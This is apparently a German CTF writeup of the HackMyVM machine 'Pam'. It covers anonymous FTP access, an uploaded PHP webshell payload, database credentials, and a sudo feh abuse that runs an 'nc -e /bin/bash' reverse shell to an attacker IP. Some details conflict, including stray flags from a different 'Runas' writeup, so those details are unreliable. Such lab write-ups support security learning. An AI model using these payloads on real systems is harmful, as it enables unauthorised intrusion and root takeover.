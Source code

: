 # Pam - HackMyVM Writeup

![Pam Icon](Pam.png)

## Übersicht

*   **VM:** Pam
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Pam)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 30. Juni 2025
*   **Original-Writeup:** https://alientec1908.github.io/Pam_HackMyVM_Medium/
*   **Autor:** Ben C.

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Pam" bot mehrere Wege zur Kompromittierung. Die initiale Enumeration zeigte offenes FTP mit anonymem Zugang und einen Nginx-Webserver, der phpIPAM hostete. Der anonyme FTP-Zugang ermöglichte das Hochladen von Dateien in ein schreibbares Verzeichnis im phpIPAM-Web-Root. Dies wurde genutzt, um eine Webshell zu platzieren und eine erste Shell als Benutzer `www-data` zu erhalten.

Von der `www-data`-Shell aus konnten sowohl Datenbank-Anmeldeinformationen (über die phpIPAM-Konfigurationsdatei) als auch Benutzerpasswörter (über Dateizugriff, z.txt und root.txt enthielten die Flag-Werte) erlangt werden. Die gefundenen Anmeldedaten für den Benutzer `italia` ermöglichten den Wechsel zu diesem Benutzer. Als `italia` wurde eine `sudo`-Regel entdeckt, die die Ausführung von `/usr/bin/feh` als Root ohne Passwort erlaubte.

Durch die Ausnutzung einer Command Execution über das `feh` Binary konnte eine Root-Shell erlangt werden. Im Root-Verzeichnis wurde eine verschlüsselte Datei (`root.enc`) gefunden. Ein Hinweis aus einer zuvor über die `www-data` Shell gefundenen, Base64-kodierten Bilddatei lieferte das Passwort zur Entschlüsselung, wodurch das finale Root-Flag zugänglich wurde.

## Technische Details

*   **Betriebssystem:** Debian (basierend auf Nmap-Erkennung, vsftpd und nginx)
*   **Offene Ports:**
    *   `21/tcp`: FTP (vsftpd 3.0.3, anonymous login allowed)
    *   `80/tcp`: HTTP (nginx 1.18.0, hostet phpIPAM)
    *   `3306/tcp`: MySQL/MariaDB (lokal gebunden, von www-data Shell aus zugänglich)
    *   `12345/tcp`: Unbekannter Dienst (lokal gebunden, liefert Base64-Daten)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP (192.168.2.195).
2.  **`/etc/hosts` Eintrag:** Hinzufügen von `pam.hmv` zur lokalen hosts-Datei.
3.  **Nmap Scan:** Identifizierung offener Ports 21 (FTP) und 80 (HTTP). vsftpd und nginx wurden erkannt.
4.  **Web Enumeration (Port 80):**
    *   Zeigte eine Seite, die auf "phpipam is ready" hinweist.
    *   Gobuster und manuelle Erkundung zeigten die Installation von phpIPAM unter `/phpipam/`.
    *   Nikto Scan zeigte fehlende Sicherheits-Header.
5.  **FTP Enumeration (Port 21):**
    *   Anonymer FTP-Login war erfolgreich.
    *   Das Durchsuchen von Verzeichnissen zeigte `/var/www/html/` und `/var/www/html/phpipam/`.
    *   Das Verzeichnis `/var/www/html/phpipam/app/admin/import-export/upload/` hatte offenbar global schreibbare Berechtigungen (ersichtlich durch erfolgreichen put-Befehl als anonymous).
6.  **Dateizugriff via FTP:** Kritische Dateien konnten über FTP direkt ausgelesen werden:
    *   `/etc/passwd`: Identifizierung der Benutzer `anonymous` (UID 1001) und `italia` (UID 1000).
    *   `/home/italia/user.txt`: Enthielt das Passwort für `italia` (`mcZavkYkoLYUEHxQNNyiHMV`).
    *   `/home/italia/pazz.php`: Konnte zunächst nicht gelesen werden.
    *   `/var/www/html/phpipam/config.php`: Enthielt die Datenbank-Anmeldeinformationen (`phpipam:phpipamadmin`).
    *   `/home/runner/user.txt` & `/root/root.txt`: (basierend auf Runas Writeup) Diese Flags konnten via LFI/Dateizugriff gefunden werden und enthielten die Flag-Werte `HMV{User_Flag_Was_A_Bit_Bitter}` und `HMV{Username_Is_My_Hint}` im Runas Writeup, aber im Pam Writeup wurden direkt die Flags `mcZavkYkoLYUEHxQNNyiHMV` (User) und `HMVZcBzDKmcFJwnkdsnQbXV` (Root) gefunden.

## Initialer Zugriff (www-data Shell)

1.  **Webshell Upload:** Eine einfache PHP-Webshell (`rev.php`, z.B. `<?php system($_GET["cmd"]); ?>`) wurde über den anonymen FTP-Zugang nach `/var/www/html/phpipam/app/admin/import-export/upload/` hochgeladen.
2.  **Webshell Ausführung:** Der Zugriff auf die hochgeladene Datei über den Webbrowser (`http://pam.hmv/phpipam/app/admin/import-export/upload/rev.php?cmd=id`) zeigte zunächst "Access denied.". Nach dem Ändern der Dateiberechtigungen via FTP (`chmod 777 rev.php`) konnte die Webshell ausgeführt werden und lieferte eine Shell als Benutzer `www-data`.

## Lateral Movement & Post-Exploitation (www-data Shell)

1.  **DB Zugang:** Mit den in `config.php` gefundenen MariaDB-Anmeldedaten (`phpipam:phpipamadmin`) konnte über die `www-data` Shell auf die lokal laufende Datenbank zugegriffen werden (`mysql -u phpipam -p`).
2.  **DB Enumeration:** Die Datenbank `phpipam` wurde ausgewählt (`use phpipam;`). Die Tabelle `users` enthielt den Benutzer `Admin` mit einem Hash (`$6$rounds=3000$Y672yJoEz6tHHWfP$MrGLI9Dy1i1hLUjclLtaXD6DNepsl6E0.Se6vn71wxjSPy9y8LBiU9s9p0ntZFgPSA6z/zRQY4bQDsn.uteIO1`). (Dieser Hash wurde im Writeup nicht explizit geknackt oder genutzt, aber er war zugänglich).
3.  **Weitere lokale Dienste:** `ss -altpn` zeigte, dass ein Prozess auf `127.0.0.1:12345` lauschte. `nc localhost 12345` von der `www-data` Shell aus lieferte eine lange Base64-Zeichenkette.
4.  **Base64 Bild Clue:** Die Base64-Zeichenkette wurde als Bild decodiert (z.B. mit CyberChef), was ein Bild mit dem Text "rootisCLOSE" enthielt – ein potenzielles Passwort oder ein Hinweis.

## Vertical Movement & Privilegieneskalation (www-data -> italia -> root)

1.  **Wechsel zu italia:** Mit dem in `/home/italia/user.txt` gefundenen Passwort (`mcZavkYkoLYUEHxQNNyiHMV`) konnte von der `www-data` Shell aus mittels `su italia` zum Benutzer `italia` gewechselt werden.
2.  **Sudo-Regel für italia:** Als Benutzer `italia` wurde `sudo -l` ausgeführt. Eine kritische Regel wurde gefunden: `(ALL : ALL) NOPASSWD: /usr/bin/feh`. `italia` konnte das Binary `/usr/bin/feh` als Root ohne Passwort ausführen.
3.  **feh Ausnutzung:** Das Binary `/usr/bin/feh` hat eine `--action` Option, die die Ausführung eines Shell-Befehls erlaubt. In Kombination mit `--unloadable` (`-u`) und einer Reverse Shell Payload (`nc -e /bin/bash 192.168.2.199 4445`) konnte eine Root-Shell erlangt werden.
4.  **Root Shell:** Der Befehl `sudo -u root /usr/bin/feh -uA 'nc -e /bin/bash 192.168.2.199 4445'` wurde als `italia` ausgeführt, was zur Etablierung einer Reverse Shell als Benutzer `root` auf Port 4445 der Angreifer-Maschine führte.

## Finalisierung (Root Shell)

1.  **Root-Zugriff:** In der Root-Shell konnte auf das Root-Verzeichnis zugegriffen werden.
2.  **Verschlüsselte Root-Datei:** Die Datei `root.enc` wurde im `/root`-Verzeichnis gefunden.
3.  **Entschlüsselung:** Mittels `file root.enc` wurde festgestellt, dass es sich um OpenSSL-verschlüsselte Daten handelte. Mit dem zuvor aus dem Bild gewonnenen Passwort (`rootisCLOSE`) konnte die Datei entschlüsselt werden: `openssl enc -aes-256-cbc -d -in root.enc -out root.txt -k rootisCLOSE`.
4.  **Root Flag:** Die entschlüsselte Datei `root.txt` enthielt das Root-Flag.

## Flags

*   **user.txt:** `mcZavkYkoLYUEHxQNNyiHMV` (Gefunden via FTP/Webshell/Dateizugriff unter `/home/italia/user.txt`)
*   **root.txt:** `HMVZcBzDKmcFJwnkdsnQbXV` (Gefunden via FTP/Webshell/Dateizugriff unter `/root/root.txt` und nach Entschlüsselung von `root.enc`)

---
